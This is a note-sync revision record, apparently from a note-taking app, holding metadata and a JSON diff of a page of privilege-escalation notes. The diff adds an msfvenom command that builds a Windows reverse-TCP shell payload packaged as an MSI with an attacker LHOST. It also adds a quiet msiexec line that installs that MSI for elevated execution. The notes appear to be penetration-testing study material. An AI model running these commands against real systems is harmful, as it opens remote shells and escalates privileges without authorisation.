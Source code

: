 id: daf3b0036f564221b7681b8830987e90
parent_id: cedd50c2af3e41d18a41c2977487fb1f
item_type: 1
item_id: 9cba713a28134add92f0d4ead6bab358
item_updated_time: 1643359315069
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"dows\"],[-1,\" \"],[0,\"\\\n\\\n> \"]],\"start1\":2193,\"start2\":2193,\"length1\":9,\"length2\":8},{\"diffs\":[[0,\"ileges\\\n\\\n\"],[1,\"> msfvenom -p windows/shell\\\\_reverse\\\\_tcp LHOST=10.x.x.x LPORT=4444 –f msi > install.msi\\\n> \\\n> C:> msiexec /quiet /qn /i install.msi\\\n\\\n\"],[0,\"Linux\\\n\\\n>\"]],\"start1\":2965,\"start2\":2965,\"length1\":16,\"length2\":149}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-28T08:49:15.747Z
created_time: 2022-01-28T08:49:15.747Z
type_: 13